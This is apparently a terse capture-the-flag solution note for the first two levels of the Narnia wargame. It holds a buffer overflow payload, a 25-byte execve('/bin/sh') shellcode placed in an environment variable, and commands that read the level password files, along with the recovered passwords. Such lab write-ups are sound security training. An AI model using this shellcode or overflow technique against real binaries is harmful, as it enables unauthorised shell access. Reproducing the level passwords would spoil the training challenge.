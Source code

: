 # 691_project

Level 0

(printf "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde";cat) | ./narnia0

cat /etc/narnia_pass/narnia1

passwd: efeidiedae

Level 1:

export EGG=$(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80")

25 bytes

./narnia1

cat /etc/narnia_pass/narnia2

Passwd: nairiepecu

128
